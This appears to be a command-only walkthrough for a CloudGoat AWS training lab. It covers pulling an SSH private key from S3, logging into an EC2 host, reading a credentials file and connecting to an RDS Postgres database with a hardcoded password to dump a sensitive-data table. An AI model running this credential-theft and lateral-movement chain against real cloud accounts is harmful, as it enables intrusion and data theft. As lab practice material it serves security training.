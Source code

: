 `aws configure --profile mcduck`

`aws s3 ls --profile mcduck`

`aws s3 ls s3://<bucket> --recursive --profile mcduck`

`aws s3 cp s3://cg-keystore-s3-bucket-cgid6prrnaix1v/cloudgoat . --profile mcduck`

`aws s3 cp s3://cg-keystore-s3-bucket-cgid6prrnaix1v/cloudgoat.pub . --profile mcduck`

`aws ec2 describe-instances --profile mcduck --region us-east-1`

`Look for machine with KeyName of cg-ec2-key-pair-rce_web_app and note down the Public IP Address`

`chmod 400 cloudgoat`

`ssh -i cloudgoat ubuntu@<ec2_public_ip>

`sudo apt-get install awscli`

`aws s3 ls`

`aws s3 ls s3://<bucket> --recursive`

`aws s3 cp s3://<bucket>/db.txt .`

`cat db.txt`

`aws rds describe-db-instances --region us-east-1`

`Look for Address ending with us-east-1.rds.amazonaws.com`

`psql postgresql://cgadmin:Purplepwny2029@<rds-instance>:5432/cloudgoat`

`\dt`

`select * from sensitive_information;`
